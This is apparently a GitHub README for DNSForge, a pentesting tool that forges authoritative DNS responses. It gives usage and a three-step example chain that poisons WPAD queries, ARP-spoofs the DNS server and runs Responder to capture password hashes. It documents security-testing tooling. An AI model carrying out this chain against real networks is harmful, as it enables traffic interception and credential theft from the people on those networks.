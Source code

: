 # DNSForge
DNSForge is a network pentesting tool that aims to forge DNS responses as if they were originating from the authoritative nameserver. This tool is intended to be used alongside [Responder](https://github.com/lgandx/Responder) and [arpspoof](https://linux.die.net/man/8/arpspoof).

## Installation
The dependencies can be installed using [Poetry](https://python-poetry.org/)
```
poetry install
poetry shell
```

## Usage
```
usage: dnsforge.py [-h] --interface INTERFACE --dns-server DNS_SERVER --query-name QUERY_NAME --poison-ip POISON_IP

DNS Response Forger

options:
  -h, --help            show this help message and exit
  --interface INTERFACE, -i INTERFACE
                        Interface to sniff/poison on
  --dns-server DNS_SERVER, -d DNS_SERVER
                        IP address of Authoritative DNS Server
  --query-name QUERY_NAME, -qn QUERY_NAME
                        DNS Query Name to Poison
  --poison-ip POISON_IP, -p POISON_IP
                        IP address of to poison with
```

## Example
Sample scenario of poisoning DNS requests for WPAD issued by victim host:
1. Setup DNS Forge to poison incoming requests
```sudo python3 dnsforge.py -d <DNS Server> -i <Interface> -qn wpad -p <Poison IP>```
2. Once the signature for the authoritative nameserver is captured, spoof ARP requests
```sudo arpspoof -i <Interface> <DNS Server>```
3. Finally, run Responder to serve malicious WPAD file and capture hashes
```sudo responder -I <Interface> -wFP```
